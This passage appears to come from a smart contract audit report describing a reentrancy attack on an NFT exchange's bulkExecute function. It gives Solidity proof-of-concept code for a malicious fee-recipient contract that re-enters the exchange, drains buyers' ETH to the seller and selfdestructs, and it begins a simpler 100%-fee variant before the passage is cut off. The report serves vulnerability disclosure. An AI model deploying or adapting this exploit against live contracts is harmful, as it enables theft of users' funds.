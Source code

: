 ```
  │Stolen │                                                          │Balance│
  └───────┘                                                          └───────┘
```

Here is a possible implementation of the fee recipient contract:
```
contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;

    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}
```

Important to know:
The exploit becomes much easier if the set fee rate is 10000 (100% of the price). This can be set by the seller. In such case, the fee recipient does not need to send funds back to the exchange contract. In such case, step #7-8 can be removed. Example code for 100% fee scenario:

```
pragma solidity 0.8.17;

import { Exchange } from "../Exchange.sol";
import { Execution } from "../lib/OrderStructs.sol";

contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;
    
    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
```